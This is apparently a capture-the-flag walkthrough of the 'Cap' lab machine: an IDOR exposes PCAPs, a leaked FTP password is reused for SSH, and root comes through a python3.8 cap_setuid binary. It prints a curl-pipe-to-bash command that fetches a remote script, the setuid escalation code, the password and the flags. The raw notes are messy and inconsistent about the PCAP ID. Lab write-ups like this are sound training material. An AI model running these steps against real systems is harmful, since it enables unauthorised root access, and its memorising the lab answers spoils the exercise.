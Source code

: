 # CAP Room

### Challenge Rating: Medium

**Challenge:**  
Target is a security dashboard web app that includes features like security snapshots (PCAPs), IP and network status, and user activity. The machine tests reconnaissance, web enumeration, IDOR (Insecure Direct Object Reference), network traffic analysis (PCAP/FTP), credential reuse, and Linux privilege escalation via binary capabilities.

**Skills:**  
- Network scanning (`nmap`, `rustscan`)  
- Web enumeration (`feroxbuster`, `dirb`)  
- Source code / HTML inspection (viewing page source, `robots.txt`)  
- Identifying and abusing IDORs (Insecure Direct Object References)  
- PCAP analysis (Wireshark) to extract credentials from application snapshots  
- Credential reuse (FTP → SSH)  
- Local enumeration and privilege escalation with `linPEAS`  
- Exploiting file capabilities (cap_setuid) using Python to gain root

**Notes:**  
- Target IP: `10.10.10.245`  
- Initial scans: `nmap` and `rustscan` → ports open: **21 (FTP)**, **22 (SSH)**, **80 (HTTP)**.  
  - FTP: `vsftpd 3.0.3`  
  - SSH: `OpenSSH 8.2p1`  
  - Webserver: Gunicorn (possible HTTP Request Smuggling via Transfer-Encoding headers — noted but not exploited here)

- Visited the web app as user *Nathan*. Dashboard shows security events, failed logins, and port scans.  
- Hamburger menu has: Security Snapshot (5s PCAP + analysis), IP Config, Network Status.  
- Viewing page source revealed references to people named **Rashed** and **Ratul Hamba**; `robots.txt` gave nothing useful.

- Used `feroxbuster` / `dirb` to enumerate paths (found nothing new beyond known endpoints).  
- Discovered an **IDOR** in Security Snapshot URLs: security snapshot redirect uses `/[something]/[id]`.  
  - Question 2 answer: `data` (the `[something]` in the path is `data`)  
  - By changing the ID you can view other users' snapshots (Question 3: **yes** — can iterate IDs 0..10)

- Inspecting PCAP ID 40 in Wireshark (source `192.168.196.1` → dest `192.168.196.16`) revealed an FTP credential:  
  - `Buck3tH4TF0RM3!` — used to log into SSH as Nathan.

**Answers to challenge questions:**  
1. How many ports are open? **3**  
2. After running a "Security Snapshot", the redirect path uses what string for [something]? **`data`**  
3. Are you able to see other users' scans? **Yes** (IDOR; can iterate 0..10)  
4. What is the ID of the PCAP file that contains sensitive data? **0**  
5. Which application layer protocol in the pcap file can the sensitive data be found in? **FTP**  
6. We've collected Nathan's FTP password. On what other service does this password work? **SSH**  
7. user flag (from Nathan's account): **`35eaae15f1ef0f055e3b983eae63c5aa`**  
8. What is the full path to the binary on this machine that has special capabilities that can be abused to obtain root privileges? **`/usr/bin/python3.8`**

**Privilege escalation (linPEAS & capabilities):**  
- Setup and run `linpeas` by hosting it locally and `curl`ing it to the target:  
  ```bash
  # on attack box
  sudo python3 -m http.server 80

  # on target
  curl http://<OurIP>/linpeas.sh | bash
  ```
- linPEAS highlighted a binary with capabilities: `/usr/bin/python3.8` has `cap_setuid,cap_net_bind_service+eip`.  
  - `cap_setuid` allows changing UID (can set to 0/root).  
  - `cap_net_bind_service` allows binding privileged ports (<1024).  
- Abuse: start the python interpreter and escalate UID:
  ```python
  import os
  os.setuid(0)
  os.system("/bin/bash")
  ```
  Result: spawned shell as **root**.

**Root flag:**  
- Root flag found: **`f77870641aea641726ee29ee9879a5e4`**

**Takeaways:**  
- IDORs are low-hanging fruit — always test incrementing IDs and object identifiers.  
- PCAP snapshots in web apps are gold for leaking credentials — always inspect network captures (Wireshark).  
- Credential reuse across services (FTP → SSH) is a common real-world misconfiguration to abuse.  
- linPEAS saves time but always manually verify and understand findings (capabilities, SUIDs, cron jobs).  
- File capabilities (`cap_setuid`) can be as dangerous as setuid binaries if abused — never assume only SUIDs matter.

**Commands / tools referenced:**  
```bash
nmap -sC -sV -oN nmap_initial 10.10.10.245
rustscan -a 10.10.10.245 -r 1-65535
feroxbuster -u http://10.10.10.245 -w /usr/share/wordlists/...
dirb http://10.10.10.245 /usr/share/wordlists/...
ssh nathan@10.10.10.245 -p 22
sudo python3 -m http.server 80
curl http://<OurIP>/linpeas.sh | bash
# escalate inside python:
python3.8
>>> import os
>>> os.setuid(0)
>>> os.system("/bin/bash")
```
## Original Notes:

<details>
ip:  10.10.10.245

we run nmap and rustscan

while they run we try the website. The site is a seucirty dashboard, logged in as a man named Nathan, on here we see security events, failed login attempts, and port scans (unique IPs).

the hamburger menu has a securit snapshot (5 second PCAP + anaysis), ip config, and network status

when we view the main page source, we see that they are using an outdate browser, and to update bia browsehappy.com

robots.txt did nothing

rustscan and nmap says that ports 22/tcp, 21/tcp and 80/tcp are open

port 21 is open ftp with vsftpd 3.0.3
port 22 ssh openSSH 8.2p1

couldn't find an exploit I want to use, the source didn't seem to have any info about passwords
we do see in the source people named Rashed and Ratul Hamba

using dirb to find urls / used feroxbuster too

the website is Gunicorn, looking for exploit. explot-db doens't have anything but myF5 does, it states:
Gunicorn  fails to properly validate Transfer-Encoding headers, leading to HTTP  Request Smuggling (HRS) vulnerabilities. By crafting requests with  conflicting Transfer-Encoding headers, attackers can bypass security  restrictions and access restricted endpoints. This issue is due to  Gunicorn's handling of Transfer-Encoding headers, where it incorrectly  processes requests with multiple, conflicting Transfer-Encoding headers,  treating them as chunked regardless of the final encoding specified.  This vulnerability allows for a range of attacks including cache  poisoning, session manipulation, and data exposure.</span></span></body></html>

so, let's see what we cna do here.bv

feroxbuster found what we already knew
so did dirb

i forgot, to look at the damn questions.

Question 1) how many ports are open : 3

2) After running a "Security Snapshot", the browser is redirected to a path of the format /[something]/[id], where [id] represents the id number of the scan. What is the [something]? :: answer = ‘data’

3) are you able to see other users scans?  yes, we can edit the url and go to data 0, 1, etc, up to our latest of 10

when we look at it in wireshark we see that no.40 with source ip of 192.168.196.1 and destination of 192.168.196.16, we see a password of "Buck3tH4TF0RM3!"
this allowed us to log into ssh
in the ssh, user.txt is a flag of “35eaae15f1ef0f055e3b983eae63c5aa”
4) What is the ID of the PCAP file that contains sensative data?  0

we have a IDOR: Insecure Direct Object Reference (IDOR) vulnerability is a type of broken access control where an application uses user-supplied input to directly access internal objects (like database records or files) without performing sufficient access control or authorization checks. Attackers can manipulate these direct references, such as changing a user ID or file name in a URL


5)  Which application layer protocol in the pcap file can the sensetive data be found in? FTP
it's ftp because we can look at hte wireshark protocol and see it's under ftp

6)We've managed to collect nathan's FTP password. On what other service does this password work? ssh

7) user flag

8) What is the full path to the binary on this machine has special capabilities that can be abused to obtain root privileges?

out next task involves using linpeas, so to use linpeas we need to use the following script : 

we go to our linpeas dir, and run "sudo python3 -m http.server 80" - this opens the server for us to then use the command we need to run linpeas on the target machine

curl http://<OurIP>/linpeas.sh | bash

linpeas is said to be one of thsoe thigns that makes you look smarter than you are, so we need to really understand what it does. First off, linpeas is going to look for weaknesses, misconfigurations, etc. a defintion i found is:

linPEAS (part of the PEASS-ng suite) is an automated Linux enumeration script that searches a host for common misconfigurations, weak permissions, credentials, and other local privilege-escalation paths. It doesn’t “exploit” anything by default — it surfaces potential vectors (SUIDs, writable files, misconfigured services, cron jobs, weak sudo rules, exposed secrets, docker sockets, etc.) so you can investigate manually. Source & project page: PEASS-ng / linPEAS. 

bang! we're in. Linpeas is running. we used curl to get the info from our pc, and piped it into bash using | bash to run it

so , looking through the linpeas, i see we have Pkexec open, maybe try that, it allows us to run a command as anotehr user, maybe root?

besides that we have files with capabilites, and we see that python3.8 = cap_setuid, cap_net_bind_service+eip. It's highlighted yellow, so we know it's odd. doing some digging we see that python normally runs files without capabilities, and a pythong interpreter with cap_setuid + effective can be abused by local users to escalate privileges or bypass restrictions

don't try using pkexec and failing to log in, it reports the failure. fun times

we learned that the python program can escalate privilegas because it as authoritity to use sudo. the python binary has been granted special capabiulites. this will allow malicious scripts to be ran that normally require root. cap_setuid is a powerful capabiltiy that allows ap rocess to make arbitary chagnes to hte User ID UID including chaning a user to root (WOOT WOOT! Our way in!). an acceter could run a simple python script containg os.setuid(0) to gain full root
cap_net_bind_service+eip grants the ability to bind prilveged ports (any below 1024). the suffix of eip indicates that a capaility is et to effectivce, inherited and permitted. Thus allowing python web server to run on sntadard porst like 80 or 443. 
running /usr/bin/python3.8 we open python. Inside python we use:
import os
os.setuid(0)
os.system("/bin/bash")

import improts the os capabilites
we set our id
os.system("/bin/bash") opens a new shell as the id we made, so root!!!


9) Submit the flag located in root's home directory.  -- /usr/bin/python3.8
10) Submit the flag located in root's home directory. -- found teh root flag under root!
“f77870641aea641726ee29ee9879a5e4”
</details>
